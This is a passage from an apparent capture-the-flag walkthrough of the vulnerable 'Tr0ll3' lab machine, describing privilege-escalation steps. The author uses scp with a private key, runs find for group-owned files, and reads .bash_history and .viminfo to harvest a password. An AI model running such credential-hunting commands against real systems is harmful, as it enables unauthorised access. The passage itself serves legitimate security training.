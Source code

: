 ## Privilege escalation

And I can see that `maleus` belongs to the `backups` group, and there is a binary file in the `maleus`'s home. When I copy that file to my local machine:
```shell
$ scp -i id_rsa_maleus maleus@192.168.2.44:/home/maleus/dont_even_bother .
```
And I decompiled with `Ghidra`, then I can see:

![evidence](./static/17-troll-ghidra.png)

And I can only see one clue or joke:
```
Your reward is just knowing you did it! :-P
```
When I use the `find` command:
```shell
$ maleus@Tr0ll3:~$ find / -group backups -ls 2>/dev/null | \
> grep -v /proc | grep -v /sys | grep -v /run

  924279  4 drwx------   3 maleus   backups   4096 Jun 18  2015 /backups
```
When I check the files in `/backups` directory:
```shell
$ maleus@Tr0ll3:/backups/maleus-backup$ ls -la
-rw-r--r-- 1 maleus root      25 Aug  1  2019 .bash_history
-rw-r--r-- 1 maleus maleus   220 Jun 18  2015 .bash_logout
-rw-r--r-- 1 maleus maleus  3637 Jun 18  2015 .bashrc
-rwxrwxr-x 1 maleus maleus  8674 Jun 18  2015 dont_even_bother
-rw-r--r-- 1 maleus maleus   675 Jun 18  2015 .profile
-rw------- 1 maleus maleus   509 Aug  1  2019 .viminfo
```
And I check the `.bash_history` file:
```
maleus@Tr0ll3:/backups/maleus-backup$ cat .bash_history
passswd
lj(fB#134
passwd
```
When I try to use that password with almost any of the users, then it does not work. When I was checking the difference between each file in the backups, and in the `maleus`'s home, then I notice that the `.viminfo` in the `maleus`'s home is different. When I read it, then I can see a password:
